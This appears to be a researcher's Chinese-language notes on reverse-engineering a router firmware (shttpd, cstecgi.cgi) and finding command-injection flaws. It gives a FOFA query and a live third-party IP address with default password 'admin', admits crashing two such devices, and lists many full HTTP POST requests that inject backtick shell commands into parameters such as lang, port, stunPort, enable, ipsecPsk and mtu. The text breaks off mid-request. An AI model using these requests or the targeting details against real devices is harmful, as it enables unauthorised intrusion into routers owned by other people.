


FOFA找到一个

```
header="SHTTPD" && header="X-UA-Compatible" && header="Pragma: no-cache" && region="TW"
```


```
http://125.228.4.197:8081
```

密码：admin


md，已经手贱打挂两个了。。。只能期盼着他们这几天会重启吧。。。


可以研究研究。


呃呃呃，但这个版本已经被挖烂了。。。


嘛，就当复现学习吧~


关键二进制文件：`usr/sbin/shttpd` AARCH64，IDA7.5也能F5，牛逼。


# 1. `/etc/shadow` Hardcoded Credentials

牛逼，以后看到/etc/shadow有root的密码Hash都算洞了。。。


# 2. `cstecgi.cgi` lang Command Injection


漏洞点定位，这个挺深的，关键函数在so里面。。。

首先定位到：


这个`Uci_Set_Str`在`usr/lib/libcscommon.so`里面：


可以看到最终拼接调用了CstrSystem:


那就随便打了。。。

```
{"lang":" `ls > /web/poc.txt`","langAutoFlag":"0","topicurl":"setLanguageCfg"}
```


按这个思路，只要有`Uci_Set_Str`的可控输入点都会产生system。。。


天呐。。。

发现只要是有`Uci_xxx`函数的地方，基本上就有CsteSystem。。。

看看能不能捡漏😏


梳理一下，`shttpd`中有的调用了CsteSystem的Uci_xxx

1. Uci_Del_Section
2. Uci_Add_Section
3. Uci_Set_Str
4. Uci_Add_List
5. Uci_Delete_List
6. Uci_Set_Str_By_Idx(也调用链Uci_Set_Str)
7. Uci_Commit


而且shttpd好多本身也有CsteSystem的调用。。。


虽然F5有点瑕疵，但都能看出大概。

IDA7.7的F5就没问题了。


所以，这个X6000，我说为什么那么多洞。。。md，一个核心组件出问题了。。。🤣


然后`sub_40BD6C`是关键的从用户输入的JSON解析数据，所以搜索`sub_40BD6C`的交叉引用就能找到很多。。。


这里：

`sub_4119A0`


对应网页

```
/advance/tr069_cfg.html
```


显然不止10个吧。。。 其他CVE也有，都记录下。

统计一下CVE中的：

- [ ] interval
- [ ] pass
- [ ] enable
- [ ] url
- [ ] informEnable
- [ ] user
- [ ] stun_user
- [ ] request_user
- [ ] request_pass
- [ ] stun_enable
- [ ] stunServerAddr
- [ ] 没了：？


好像直接访问会logout，哦可以访问，刷新几次就好了：


```
POST /cgi-bin/cstecgi.cgi?token=30C851FDA0326579 HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 281
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/tr069_cfg.html?token=30C851FDA0326579
Priority: u=1

{"addEffect":"0","enable":"1","url":"www.awa.com","user":"1","pass":"1","informEnable":"0","interval":"","requestUser":"","requestPass":"","stun_user":"","stun_pass":"","stunEnable":"0","stunServerAddr":"","stunPort":"","stunMaxAlive":"","stunMinAlive":"","topicurl":"setTr069Cfg"}
```


后面的stunPort这些都能打：


统计下剩下的：

- [ ] port
- [ ] stunPort
- [ ] stunMaxAlive
- [ ] stunMinAlive


# 3. `sub_4119A0` ✔️

## `port`

```
POST /cgi-bin/cstecgi.cgi?token=FE46010A2414AC06 HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 318
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/tr069_cfg.html?token=FE46010A2414AC06
Priority: u=1

{"addEffect":"0","enable":"1","url":"www.awa.com","user":"1","pass":"1","informEnable":"0","interval":"","requestUser":"","requestPass":"",
"port":"`ls >/web/poc_port.txt`",
"stun_user":"","stun_pass":"","stunEnable":"0","stunServerAddr":"","stunPort":"","stunMaxAlive":"","stunMinAlive":"","topicurl":"setTr069Cfg"}
```


## `stunPort`

```
POST /cgi-bin/cstecgi.cgi?token=FE46010A2414AC06 HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 325
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/tr069_cfg.html?token=FE46010A2414AC06
Priority: u=1

{"addEffect":"0","enable":"1","url":"www.awa.com","user":"1","pass":"1","informEnable":"0","interval":"","requestUser":"","requestPass":"",
"port":"12",
"stun_user":"","stun_pass":"","stunEnable":"0","stunServerAddr":"","stunPort":"`ls > /web/poc_stunPort.txt`","stunMaxAlive":"","stunMinAlive":"","topicurl":"setTr069Cfg"}
```


## `stunMaxAlive`

```
POST /cgi-bin/cstecgi.cgi?token=FE46010A2414AC06 HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 325
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/tr069_cfg.html?token=FE46010A2414AC06
Priority: u=1

{"addEffect":"0","enable":"1","url":"www.awa.com","user":"1","pass":"1","informEnable":"0","interval":"","requestUser":"","requestPass":"",
"port":"12",
"stun_user":"","stun_pass":"","stunEnable":"0","stunServerAddr":"","stunPort":"","stunMaxAlive":"`ls > /web/stunMaxAlive.txt`","stunMinAlive":"","topicurl":"setTr069Cfg"}
```


## `stunMinAlive`

```
POST /cgi-bin/cstecgi.cgi?token=FE46010A2414AC06 HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 328
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/tr069_cfg.html?token=FE46010A2414AC06
Priority: u=1

{"addEffect":"0","enable":"1","url":"www.awa.com","user":"1","pass":"1","informEnable":"0","interval":"","requestUser":"","requestPass":"",
"port":"12",
"stun_user":"","stun_pass":"","stunEnable":"0","stunServerAddr":"","stunPort":"","stunMaxAlive":"","stunMinAlive":"`ls >/web/poc_stunMinAlive.txt`","topicurl":"setTr069Cfg"}
```


---

# 统计下整个报了CVE的RCE点：

1. `sub_4117F8`的`lang`注入 全

2. `sub_410118 `全

3. `sub_41284C`

   还有`Uci_Add_List`可以打，

4. `sub_415AA4`

   还有`rtLogServer`参数

5. `sub_415C80` 全

6. `sub_415534`

   还有`content_length`

7. `sub_417338` 全

8. `sub_415774` 全

9. `sub_411F90` 全

10. 


# 4. `sub_415AA4`


## `rtLogServer`

貌似没执行成功：？


# 按这个找

```
usr/lib/opkg/info/webui.list
```

```
/web/phone/vpn.html
/web/advance/qos_set.html
/web/static/images/map/wan.png
/web/static/images/phone/IP04499_X6000R.png
/web/static/images/phone/qos.png
/web/static/images/phone/urlfilter.png
/web/static/images/phone/signal_medium.png
/web/plugin/vue.js
/web/static/images/opmode/wisp_phone_on.png
/web/advance/urlf.html
/web/static/images/phone/speed_down.png
/web/static/images/topmenu/logout.png
/web/static/css/loading.css
/web/static/images/phone/mtk.png
/web/static/images/phone/select2_on.png
/web/static/images/phone/tools.png
/web/static/images/phone/circle.png
/web/static/images/phone/phone.png
/web/phone/staticdhcp.html
/web/advance/changepwd.html
/web/static/images/basic_menu/guest.png
/web/phone/changepwd.html
/web/static/images/link.png
/web/static/images/phone/appfilter.png
/web/phone/application.html
/web/static/images/basic_menu/service_on.png
/web/static/images/phone/key.png
/web/advance/repeater_table.html
/web/static/images/basic_menu/qos_on.png
/web/static/images/basic_menu/service.png
/web/static/images/phone/account.png
/web/static/images/phone/arrow_04.png
/web/static/images/phone/info_system.png
/web/static/images/topmenu/basic.png
/web/advance/remote_tables.html
/web/static/images/map/clients_on.png
/web/advance/remote.html
/web/static/images/net.png
/web/static/images/phone/devices.png
/web/static/images/phone/wisp.png
/web/static/images/topmenu/led.png
/web/static/images/phone/opmode.png
/web/static/images/phone/info-set.png
/web/static/images/phone/up.png
/web/static/images/phone/info-wifi.png
/web/plugin/excanvas.js
/web/static/images/phone/time.png
/web/advance/ddns.html
/web/static/images/phone/user_on_dis.png
/web/advance/acl.html
/web/static/images/topmenu/advance_on.png
/web/plugin/json2.js
/web/static/images/phone/reset.png
/web/static/images/topmenu/advance_sel.png
/web/phone/mesh_upload.html
/web/static/images/phone/mesh.png
/web/static/js/phone_layout.js
/web/advance/upload.html
/web/advance/dos.html
/web/static/images/basic_menu/urlfilter.png
/web/static/images/phone/parental.png
/web/static/images/tips.png
/web/static/images/system.png
/web/static/images/topmenu/led_on.png
/web/static/images/key.png
/web/advance/mesh_info.html
/web/static/images/phone/language.png
/web/static/images/phone/btn_03.png
/web/static/js/topicurl.js
/web/phone/led.html
/web/static/images/map/wifi5g_off.png
/web/static/images/phone/account_dis.png
/web/static/images/basic_menu/storage_on.png
/web/static/images/phone/wifi.png
/web/static/js/kr.js
/web/static/images/topmenu/reboot.png
/web/static/images/phone/desktop.png
/web/static/images/basic_menu/easymesh.png
/web/phone/info.html
/web/static/images/phone/sign_right2.png
/web/static/images/phone/router.png
/web/language/vi.json
/web/static/images/basic_menu/appfilter.png
/web/static/images/phone/arrow_05.png
/web/static/images/phone/open.png
/web/static/images/status.png
/web/static/images/phone/ipad_dis.png
/web/advance/tr069_cfg.html
/web/static/images/basic_menu/guest_on.png
/web/phone/guest111.html
/web/static/css/advance_menu.css
/web/static/images/phone/menu_app.png
/web/static/images/map/clients.png
/web/static/images/phone/lan.png
/web/static/images/basic_menu/status_on.png
/web/static/images/map/down.png
/web/static/images/basic_menu/appfilter_on.png
/web/static/images/basic_menu/nat.png
/web/static/images/phone/ram.png
/web/static/images/phone/dui.png
/web/basic/guest.html
/web/static/images/map/router.png
/web/static/images/phone/usb.png
/web/static/images/phone/select2_off.png
/web/advance/syslog.html
/web/static/images/phone/sign_right.png
/web/static/images/ueye.png
/web/static/images/basic_menu/equipment.png
/web/advance/factory_bound.html
/web/static/images/phone/user_on.png
/web/static/images/opmode/rpt_on.png
/web/static/images/signal_good.png
/web/phone/factory_bound.html
/web/static/images/basic_menu/gamespeed_on.png
/web/static/images/phone/btn_04.png
/web/static/images/signal_medium.png
/web/static/images/topmenu/reboot_on.png
/web/static/images/phone/factory.png
/web/static/images/trash.png
/web/basic/wan.html
/web/static/images/map/wifi2g_off.png
/web/static/images/phone/wifi2g.png
/web/static/images/added.png
/web/language/ru.json
/web/static/images/map/mesh_on.png
/web/static/images/phone/arrow_06.png
/web/static/images/phone/down_.png
/web/language/ct.json
/web/static/css/phone/main.css
/web/static/images/map/master_mesh.png
/web/static/images/topmenu/advance.png
/web/static/images/topmenu/wizard_sel.png
/web/basic/device.html
/web/static/images/phone/phone2.png
/web/static/images/topmenu/basic_on.png
/web/phone/login.html
/web/static/images/topmenu/opmode_on.png
/web/static/images/basic_menu/vpn.png
/web/static/images/phone/led_on.png
/web/static/images/phone/br.png
/web/advance/account.html
/web/static/images/topmenu/wizard_on.png
/web/static/css/phone/home.css
/web/static/images/phone/menu_app2.png
/web/static/css/phone/style.css
/web/static/images/phone/add.png
/web/advance/ipf.html
/web/phone/parental.html
/web/static/images/map/wifi2g.png
/web/static/js/config.js
/web/static/images/map/lan2.png
/web/static/images/basic_menu/parental.png
/web/language/cn.json
/web/static/images/user.png
/web/easymesh/easymesh.html
/web/phone/wan.html
/web/static/images/phone/firmware.png
/web/static/images/map/user.png
/web/advance/index.html
/web/static/images/phone/up_.png
/web/static/images/opmode/wisp_on.png
/web/basic/qos.html
/web/advance/pptp.html
/web/phone/easymesh.html
/web/static/images/phone/storage.png
/web/advance/vpnpass.html
/web/static/images/phone/down.png
/web/static/images/phone/signal_good.png
/web/static/images/phone/guest.png
/web/phone/urlfilter.html
/web/static/images/basic_menu/wifi_schedule_on.png
/web/static/images/opmode/br_phone_on.png
/web/static/images/opmode/rpt_phone_on.png
/web/static/images/phone/close.png
/web/static/images/basic_menu/status.png
/web/static/images/lock.png
/web/advance/mul_guest.html
/web/advance/static_route.html
/web/advance/lan.html
/web/static/images/phone/connection.png
/web/static/images/phone/vpn.png
/web/static/images/phone/rpt.png
/web/static/images/basic_menu/easymesh_on.png
/web/phone/opmode.html
/web/static/images/phone/user_off_dis.png
/web/static/images/map/router_on.png
/web/static/images/basic_menu/mesh_on.png
/web/advance/wps.html
/web/phone/qos.html
/web/static/images/map/net_on.png
/web/static/images/unlink.png
/web/static/images/map/mesh_off.png
/web/static/js/verify.js
/web/advance/diagnosis.html
/web/static/images/phone/pc_dis.png
/web/static/images/phone/wait.png
/web/favicon.ico
/web/static/images/basic_menu/wifi_schedule.png
/web/static/images/phone/cpu2.png
/web/static/images/phone/ok.png
/web/static/images/phone/select_off.png
/web/static/images/phone/internet2.png
/web/static/css/wizard.css
/web/static/images/load.gif
/web/plugin/echarts.min.js
/web/advance/upnp.html
/web/static/images/basic_menu/security_on.png
/web/basic/parental.html
/web/static/images/phone/application.png
/web/static/js/config_ie.js
/web/advance/advance.html
/web/phone/mesh.html
/web/static/css/bar.css
/web/static/images/topmenu/logout_on.png
/web/static/images/phone/wifi_signal.png
/web/phone/signal.html
/web/static/css/main.css
/web/static/css/common.css
/web/static/images/key_off.png
/web/static/images/phone/off.png
/web/static/js/main.js
/web/static/images/signal_weak.png
/web/static/images/phone/user.png
/web/advance/route_table.html
/web/advance/macf.html
/web/phone/time.html
/web/plugin/jquery.min.js
/web/static/images/edited.png
/web/static/images/refresh.png
/web/static/images/phone/ipmacbind.png
/web/static/images/logo.png
/web/static/images/topmenu/easymesh_on.png
/web/static/images/topmenu/easymesh.png
/web/advance/iptv.html
/web/static/images/phone/info_internet.png
/web/plugin/Chart.min.js
/web/static/images/phone/led.png
/web/static/images/map/port2.png
/web/basic/mesh_config.html
/web/advance/parental.html
/web/advance/traceroute.html
/web/static/images/basic_menu/vpn_on.png
/web/static/images/phone/password.png
/web/static/images/eye.png
/web/static/images/opmode/br_on.png
/web/static/images/phone/info_wifi.png
/web/static/images/drop2.png
/web/static/images/phone/next.png
/web/phone/wifi.html
/web/static/images/topmenu/qrcode_on.png
/web/static/images/basic_menu/tools_on.png
/web/static/images/map/up.png
/web/static/images/phone/lock.png
/web/static/images/basic_menu/tools.png
/web/static/images/phone/led_off.png
/web/advance/portfwd.html
/web/static/images/phone/pc.png
/web/home.html
/web/static/images/topmenu/led2.png
/web/static/images/opmode/gw_phone_on.png
/web/static/images/topmenu/wizard.png
/web/phone/device.html
/web/phone/wizard.html
/web/static/images/map/net.png
/web/static/images/phone/arrow_01.png
/web/static/images/phone/remote.png
/web/opmode.html
/web/static/images/phone/router2.png
/web/static/images/phone/speed_up.png
/web/static/js/common.js
/web/static/images/phone/administrator.png
/web/advance/config.html
/web/static/css/basic_menu.css
/web/phone/tools.html
/web/static/images/basic_menu/wifi_on.png
/web/basic/mesh.html
/web/static/images/logo_ie.jpg
/web/static/images/phone/ram2.png
/web/static/images/phone/game.png
/web/static/images/help.png
/web/static/images/phone/internet_fail.png
/web/static/images/phone/basic_sel.png
/web/static/images/phone/pc2.png
/web/static/images/phone/signal_weak.png
/web/static/css/login.css
/web/static/images/phone/led2.png
/web/static/images/phone/internet.png
/web/static/images/topmenu/qrcode.png
/web/language/en.json
/web/static/images/phone/mesh_info.png
/web/static/images/phone/rule.png
/web/static/images/phone/phone_dis.png
/web/static/images/phone/speed_down2.png
/web/static/js/md5.js
/web/static/images/phone/gw.png
/web/advance/domain.html
/web/static/images/phone/cpu.png
/web/static/images/phone/wifi5g.png
/web/static/images/drop.png
/web/static/images/phone/info.png
/web/advance/l2tp.html
/web/static/images/basic_menu/storage.png
/web/advance/staticdhcp.html
/web/static/js/layout.js
/web/error.html
/web/phone/language.html
/web/advance/mesh.html
/web/static/images/map/wan2.png
/web/static/images/phone/info-internet.png
/web/static/images/reply.png
/web/advance/hardware_speed.html
/web/basic/wifi.html
/web/static/images/phone/arrow_02.png
/web/phone/firmware.html
/web/static/images/phone/back.png
/web/advance/guest.html
/web/basic/index.html
/web/static/images/phone/IP04509_X30.png
/web/advance/firewall_level.html
/web/static/images/login_ie.jpg
/web/advance/time.html
/web/phone/guest.html
/web/static/images/port.png
/web/phone/easymesh_info.html
/web/login.html
/web/static/images/basic_menu/gamespeed.png
/web/static/images/phone/speed_up2.png
/web/static/images/map/port.png
/web/static/images/search.png
/web/static/images/map/wifi5g.png
/web/static/images/topmenu/basic_sel.png
/web/advance/dmz.html
/web/static/images/map/from.png
/web/static/images/phone/select_on.png
/web/static/images/basic_menu/net.png
/web/advance/wifi_schedule.html
/web/static/images/basic_menu/mesh.png
/web/phone/wifi_schedule.html
/web/static/images/basic_menu/qos.png
/web/static/images/map/master.png
/web/static/images/basic_menu/urlfilter_on.png
/web/static/images/phone/changepwd.png
/web/static/images/phone/wizard.png
/web/advance/wan.html
/web/static/images/topmenu/opmode.png
/web/static/images/basic_menu/security.png
/web/static/images/phone/user_off.png
/web/static/images/phone/exit.png
/web/advance/wifi.html
/web/static/images/phone/wifi_schedule.png
/web/wizard.html
/web/phone/home.html
/web/static/images/phone/on.png
/web/static/images/topmenu/led_off.png
/web/static/css/phone/common.css
/web/advance/ipf6.html
/web/index.html
/web/static/images/unlock.png
/web/static/images/phone/system.png
/web/static/images/time.png
/web/static/images/phone/BG.png
/web/static/images/basic_menu/wifi.png
/web/static/images/phone/set_dis.png
/web/static/images/basic_menu/equipment_on.png
/web/advance/ipv6.html
/web/easymesh/index.html
/web/static/images/topmenu/opmode_sel.png
/web/static/images/basic_menu/nat_on.png
/web/static/images/key_on.png
/web/static/images/edit.png
/web/static/images/topmenu/vpn_on.png
/web/static/images/basic_menu/net_on.png
/web/static/images/map/lan.png
/web/static/images/phone/restart.png
/web/static/images/phone/set.png
/web/static/images/phone/arrow_03.png
/web/static/images/basic_menu/parental_on.png
/web/static/images/login.png
/web/advance/storage.html
/web/static/images/topmenu/vpn.png
/web/static/images/wifi.png
/web/phone/lan.html
/web/advance/schedule.html
/web/static/images/phone/bw.png
/web/static/images/phone/ipad.png
/web/advance/qos.html
/web/static/images/phone/internet_ok.png
/web/static/images/opmode/gw_on.png

```


# 如何找web页面与对应二进制代码？

通过topicurl


虽然但是，还是不知道原理。。。


# ADVANCED - SECURITY ✔️

## 5. `/advance/urlf.html` 


看到有enable，直接盲测：😍

```
POST /cgi-bin/cstecgi.cgi?token=BB19D84941E95CCC HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 61
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/urlf.html?token=BB19D84941E95CCC
Priority: u=1

{"enable":"`ls >/web/poc_urlf.txt`","addEffect":"0","topicurl":"setUrlFilterRules"}
```


漏洞点：

`/usr/sbin/shttpd`的`sub_41C304`函数：


## 6. `/advance/macf.html`


```
POST /cgi-bin/cstecgi.cgi?token=BB19D84941E95CCC HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 72
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/macf.html?token=BB19D84941E95CCC
Priority: u=1

{"mode":"1","addEffect":"0","enable":"`ls >/web/poc_macf.txt`","topicurl":"setMacFilterRules"}
```


## 7. `/advance/ipf.html`


这个得自己调整格式，要补上`"mode":"1"`，然后把addEffect调到enable前面:

```
POST /cgi-bin/cstecgi.cgi?token=591BAF19FCA19C0D HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 98
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/ipf.html?token=591BAF19FCA19C0D
Priority: u=1

{
"mode":"1","addEffect":"0","enable":"`ls >/web/poc_ipf.txt`","topicurl":"setIpPortFilterRules"}
```


## 8. `/advance/l2tp.html`

日。。。漏洞点在`sub_4217BC`：


一大堆。。。 就看是不是以前有的了。。

应该没有。因为溯源也不好找调用点，，楽。。。



### `enable`

```
POST /cgi-bin/cstecgi.cgi?token=D526E9BD192CC73D HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 230
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/l2tp.html?token=D526E9BD192CC73D
Priority: u=1

{"enable":"`ls >/web/poc_l2tp_enable.txt`","sip":"10.8.0.2","eip":"10.8.0.51","server":"10.8.0.1","priDns":"8.8.8.8","secDns":"10.20.0.1","mtu":"1450","mru":"1450","ipsecL2tpEnable":"0","ipsecPsk":"","topicurl":"setL2tpServerCfg"}
```


### `ipsecPsk`

```
POST /cgi-bin/cstecgi.cgi?token=D526E9BD192CC73D HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 233
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/l2tp.html?token=D526E9BD192CC73D
Priority: u=1

{"enable":"1","sip":"10.8.0.2","eip":"10.8.0.51","server":"10.8.0.1","priDns":"8.8.8.8","secDns":"10.20.0.1","mtu":"1450","mru":"1450","ipsecL2tpEnable":"0","ipsecPsk":"`ls >/web/poc_l2tp_ipsecPsk.txt`","topicurl":"setL2tpServerCfg"}
```




### `ipsecL2tpEnable`

```
POST /cgi-bin/cstecgi.cgi?token=D526E9BD192CC73D HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 239
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/l2tp.html?token=D526E9BD192CC73D
Priority: u=1

{"enable":"1","sip":"10.8.0.2","eip":"10.8.0.51","server":"10.8.0.1","priDns":"8.8.8.8","secDns":"10.20.0.1","mtu":"1450","mru":"1450","ipsecL2tpEnable":"`ls >/web/poc_l2tp_ipsecL2tpEnable.txt`","ipsecPsk":"","topicurl":"setL2tpServerCfg"}
```


### `mtu`

```
POST /cgi-bin/cstecgi.cgi?token=D526E9BD192CC73D HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 224
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/l2tp.html?token=D526E9BD192CC73D
Priority: u=1

{"enable":"1","sip":"10.8.0.2","eip":"10.8.0.51","server":"10.8.0.1","priDns":"8.8.8.8","secDns":"10.20.0.1","mtu":"`ls >/web/poc_l2tp_mtu.txt`","mru":"1450","ipsecL2tpEnable":"0","ipsecPsk":"","topicurl":"setL2tpServerCfg"}
```


### `mru`

```
POST /cgi-bin/cstecgi.cgi?token=D526E9BD192CC73D HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
